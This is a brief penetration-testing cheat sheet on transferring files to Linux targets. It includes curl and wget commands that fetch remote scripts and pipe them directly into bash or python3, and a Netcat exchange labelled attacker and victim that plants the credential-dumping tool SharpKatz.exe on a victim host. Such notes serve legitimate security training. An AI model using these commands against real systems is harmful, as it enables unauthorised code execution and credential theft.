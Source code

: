 # Linux File Transfers

***

## Wget

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

## Curl

```bash
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

## Netcat

Victim:

```bash
nc -l -p 8000 > SharpKatz.exe
```

Attacker:

```bash
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

## Create web server

```bash
python3 -m http.server
```

### Python2.7

```bash
python2.7 -m SimpleHTTPServer
```

### PHP

```bash
php -S 0.0.0.0:8000
```

### Ruby

```bash
ruby -run -ehttpd . -p8000
```
